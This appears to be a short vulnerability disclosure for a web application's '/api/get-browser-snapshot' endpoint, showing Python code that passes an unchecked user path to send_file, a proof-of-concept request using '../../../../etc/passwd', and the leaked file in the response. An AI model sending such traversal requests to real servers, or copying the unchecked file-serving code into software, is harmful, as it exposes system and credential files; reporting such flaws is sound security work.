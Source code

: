 ### Version
latest(2024.6.26)
### Description
At the `/api/get-browser-snapshot` endpoint, the snapshot_path value is not checked, resulting in path traversal which allow attackers to get any file of the system. 
### Source code
```python
@app.route("/api/get-browser-snapshot", methods=["GET"])
@route_logger(logger)
def browser_snapshot():
    snapshot_path = request.args.get("snapshot_path")
    return send_file(snapshot_path, as_attachment=Tru
```
### PoC
```
GET /api/get-browser-snapshot?snapshot_path=../../../../etc/passwd HTTP/1.1
Host: 10.160.167.54:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: zbx_session=cookie
Upgrade-Insecure-Requests: 1
Priority: u=1
```
response:
```
HTTP/1.1 200 OK
Content-Disposition: attachment; filename=passwd
Content-Type: application/octet-stream
Content-Length: 2505
Last-Modified: Tue, 11 Jun 2024 01:56:47 GMT
Cache-Control: no-cache
ETag: "1718071007.1050704-2505-555683153"
Date: Wed, 26 Jun 2024 08:40:23 GMT
Access-Control-Allow-Origin: http://localhost:3000
Vary: Origin

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
